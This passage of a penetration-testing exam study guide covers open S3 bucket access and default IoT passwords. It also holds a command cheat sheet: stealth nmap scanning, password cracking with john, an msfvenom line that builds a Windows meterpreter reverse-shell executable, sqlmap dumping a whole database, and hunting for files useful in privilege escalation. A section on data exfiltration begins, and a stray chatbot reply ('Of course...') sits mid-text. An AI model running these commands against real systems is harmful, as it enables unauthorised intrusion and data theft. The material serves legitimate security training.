 ## ☁️ Module 7: Cloud & IoT (Conceptual)

*   **Cloud (AWS S3):** Look for misconfigured, publicly readable buckets.
    ```bash
    # Curl a bucket
    curl http://s3.amazonaws.com/bucketname/

    # Use AWS CLI (if configured)
    aws s3 ls s3://bucketname/
    aws s3 cp s3://bucketname/secret.txt .
    ```
*   **IoT:** Default credentials are a major issue. Always try `admin:admin`, `root:root`, `admin:password`.

---

## 🧰 Toolbox: Command Cheat Sheet

| Tool | Command | Purpose |
| :--- | :--- | :--- |
| **`nmap`** | `nmap -sS -sV -A <target>` | Stealth scan with version and OS detection |
| **`netcat`** | `nc -nv <target> <port>` | Banner grabbing / manual service interaction |
| **`john`** | `john --wordlist=rockyou.txt hashes.txt` | Password cracking |
| **`msfvenom`** | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X LPORT=Y -f exe > shell.exe` | Generate a Windows payload |
| **`sqlmap`** | `sqlmap -u "http://site.com/page?id=1" --dump-all` | Automate SQL injection |
| **`steghide`** | `steghide extract -sf file.jpg -p 'pass'` | Extract hidden data from an image |
| **`curl`** | `curl -X POST -d "param=value" http://site.com/login` | Interact with web apps from CLI |
| **`find` (Lin)** | `find / -perm -u=s -type f 2>/dev/null` | Find SUID files for priv esc |
| **`whoami /priv` (Win)** | `whoami /priv` | Check Windows user privileges |
| **`WinPEASany.exe` (Win)** | `WinPEASany.exe` | Run Windows priv esc enumerator (after upload) |

Of course. This is a critical skill for the exam and real-world penetration testing. Here is the new chapter to add to the master reference document.

***

## 📤 Module 8: Data Exfiltration & File Transfers

A common exam task is to upload a tool (like WinPEAS/LinPEAS) to a target or download a flag file from it. The method you use depends entirely on which services are available.

### Core Concept: The "Push" vs. "Pull" Method
*   **Push:** You host the file on your machine and the *target pulls* it down.
*   **Pull:** You upload the file from your machine to the target (often trickier and requires specific services).

---